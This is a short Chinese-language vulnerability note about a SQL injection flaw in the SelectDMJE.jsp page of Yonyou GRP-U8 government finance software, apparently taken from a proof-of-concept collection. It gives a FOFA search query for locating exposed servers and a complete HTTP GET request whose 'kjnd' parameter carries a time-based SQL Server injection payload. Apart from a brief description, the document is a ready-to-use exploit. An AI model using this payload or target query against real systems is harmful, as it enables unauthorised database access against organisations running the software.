## 用友GRP-U8-SelectDMJE.jsp_SQL注入漏洞

用友GRP-U8R10产品官方在售及提供服务的版本为U8Manager，产品分B、C、G三个产品系列，以上受到本次通报漏洞的影响。用友GRP-U8 SelectDMJE.jsp 存在SQL注入漏洞。

## fofa
```
app="用友-GRP-U8"
```

## poc
```
GET /u8qx/SelectDMJE.jsp?kjnd=1%27;WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Connection: close
```

